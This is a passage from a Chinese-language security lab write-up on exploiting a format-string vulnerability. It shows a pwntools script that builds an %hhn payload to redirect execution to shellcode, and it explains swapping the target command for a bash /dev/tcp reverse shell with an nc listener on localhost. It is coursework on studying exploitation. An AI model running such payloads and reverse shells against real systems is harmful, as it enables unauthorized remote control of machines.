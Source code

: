```python
payload += "%24$hhn"
payload += "%{}c".format((((shellcode_addr>>8)&0xff)-(shellcode_addr&0xff)+256)&0xff)
payload += "%25$hhn"
payload += "%{}c".format((((shellcode_addr>>16)&0xff)-((shellcode_addr>>8)&0xff)+256)&0xff)
payload += "%26$hhn"
payload += "%{}c".format((((shellcode_addr>>24)&0xff)-((shellcode_addr>>16)&0xff)+256)&0xff)
payload += "%27$hhnaa"

print len(payload)

#p = fmtstr_payload( 24, {ret_addr:shellcode_addr} ) + 'aa'
#print p==payload
payload += shellcode

print payload
pause()
io.sendline(payload)

io.interactive()
```

关键在于将原本执行的`/bin/rm /tmp/myfile`替换成`bin/bash -i > /dev/tcp/127.0.0.1/7070 0<&1`。

并且要在本地执行`nc -l 7070 -v`监听端口。

结果如下图

![task7-reverse-shell](../images/lab5-task7-reverse-shell.png)

## Task 8: Fixing the Problem

